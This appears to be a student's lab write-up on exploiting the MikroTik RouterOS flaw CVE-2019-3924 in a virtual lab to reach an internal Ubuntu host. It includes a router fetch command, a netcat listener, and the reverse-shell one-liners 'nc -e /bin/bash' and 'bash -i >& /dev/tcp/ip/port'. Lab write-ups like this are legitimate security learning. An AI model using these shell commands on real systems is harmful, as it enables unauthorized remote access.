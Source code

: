 Okay, cool, we need to do exploit.

The setup is:

| Who                | network_internal | network_nat     |
|--------------------|------------------|-----------------|
| ubuntu vm          | 192.168.100.248  |                 |
| mikrotik router vm | 192.168.100.234  | 192.168.122.107 |
| Kali               |                  | 192.168.122.104 |

The ip for Ubuntu vm was gotten from the mikrotik using DHCP, so IP can change sometimes (I did the lab during a few days). Just bare in mind that if there is an IP 192.168.100.\*, but the \* != 234, then it's Ubuntu.

# VMs & networks

There was some (3h) configuration of VMs (qemu/kvm), because ubuntu did not want to connect to mikrotik, and I tried bridging (which required many scary commands on the host OS), a fully open network (which is bad) and an isolared network (which I settled on), with different VM network adapter types, and finally it did work! Then the plain old NAT worked to connect kali to mikrotik.

![ubuntu connected](img/ubuntu_connected.png)

I could use host OS instead of kali, because ubuntA and mikrotik were on an isolated (even from the host) network, but I decided that would be boring and went for a full blown Kali (but was testing on host).

# CHR

To configure chr, I got scared of the strange shell provided by default, so I went for winbox. However, I did not want to use the heavy altirrely (AUR and wine) and went for a windows 10 VM, which I connected to NAT and configured from. The unfortunate thing was, windows likes storage, and my SSD does not meet its demads, so windows got borked and I still needed to use AUR and wine. Fortunately, it did not bork my main OS yet.

The chr config can be found at [chr_config.txt](chr_config.txt).

# Exploit code

The exploit code is not that hard to make, but there is one problem. It does not compile!

The exploit was found in 2019, and Boost was way different back then. I needed to patch the utils that used some boost functionality to compile with the newer boost. Fortunately, someone has already done similar patches on a random github repository, so I sneakily looked at their pull request and transferred the knowledge to the exploit.

Here you can see the old code sample commented out and the new written:

![exploit patch](img/2_patch_code_for_newer_libraries.png)

Now I just need to init the Ubuntu VM using:

```
/tool fetch url="http://192.168.100.248/init.php\?email=husiev.pn@ucu.edu.ua" http-method=get dst-path=smth.txt
```

# Yay, everything is done - let's launch

Okay, so now we have everything we need, right? right?

Yeah, so when I do init from kali, I get timeouts! What might be wrong???

I had no clue, and could not debug myself out.

Fortunately, if you chroot from host into ubuntu, you can just change the root password - cool. Now you can login and try debugging the application.

It turns out, it uses apache - so we need to look into /var/www - there is a directory `webapp` with lots of scripts. We just need to add debug output into a file (ask Claude 3.7 Sonnet to write some php for debugging) - it turns out, the request is got, but something goes wrong.

Okay, let's add debug prints to init.sh - yay, we found the issue: it does not git clone! wait, what? But I can do `ping github.com` or curl something - why can't I clone? It just hangs trying to clone, and then says something about gnu tls errors - internet has no idea, what went wrong.

A few more hours, and it turns out that if I turn off my VPN, everything starts working - huh?

![Disable vpn](img/3_disable_vpn.png)

Now I just have to listen at port 1337 (using `nc -lvp 1337`) and ask Dude politely to ask Ubuntu politely to create `a.php`, which would pipe bash into 1337 port of host's IP.

# Now everything is alright, right?

Well, no.

It turns out that having 4 VMs (one of which is windows) and 4 browsers opened at the same time, while having 8 GiB of RAM might be a bad idea - slooow.

![pain](img/4_pain.png)

Oh, wait, no no no! Applications go brrrr.

![OOM](img/5_oom.png)

Fortunately, the VMs stayed intact. Now everything has to work.

Well yes, but actually no. The ubuntu does receive the request to create a file `a.php`, it creates the file, but host does not receive any response: neither at port it is listening to for bash, nor as an http response. Damn!

Lots of tries (and some random stuff appearing in mikrotik) later, I managed to make mikrotik ping the host (I believe some rules in the firewal to pass trafic from inside to 192.168.100* resolved the issue, but I'm no longer sure). But the request still fails.

Some time later it turned out that I need to turn off port `1337` in my firewall at host - I should have thought about it earlier!

![firewall off](img/6_firewall.png)

# Yay

It was at this moment that everything worked! Yay!

![yay](img/7_yay.png)

The flag can be found at [flag](flag.txt)

And, to prove that we can't ping the ubuntu from kali:

![can't reach](img/8_can't_reach.png)

And here is Ubuntu's network settings:

[ubuntu_network](ip_a_ubuntu.txt)

# How my code works

Basically things changed:
- From using /upload switch to using /api_upload (and give not only the file, but also the key)
- Change from using `nc ip:port -e /bin/bash` to `bash -i >& /dev/tcp/ip/port 0>&1`
- Remove stuff checking for NUUO NVR
- Add the key to the request (I got it from the rooted ubuntu - I hope it's not a mortal sin...)

The full code can be viewed at [poc/cve_2019_3924/src/main.cpp](poc/cve_2019_3924/src/main.cpp)
